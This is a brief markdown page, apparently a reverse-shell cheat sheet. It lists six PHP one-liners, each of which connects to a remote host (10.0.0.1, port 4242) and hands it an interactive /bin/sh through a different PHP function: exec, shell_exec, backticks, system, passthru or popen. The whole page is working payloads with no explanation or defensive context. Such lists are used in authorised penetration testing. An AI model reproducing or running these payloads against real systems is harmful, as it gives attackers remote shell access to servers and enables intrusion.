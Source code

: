 ## php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");' ```

## php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
``` php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");' ```

## php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
``` php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;' ```

## php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
```php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'```
## php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
```php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'```
## php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
``` php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");' ```
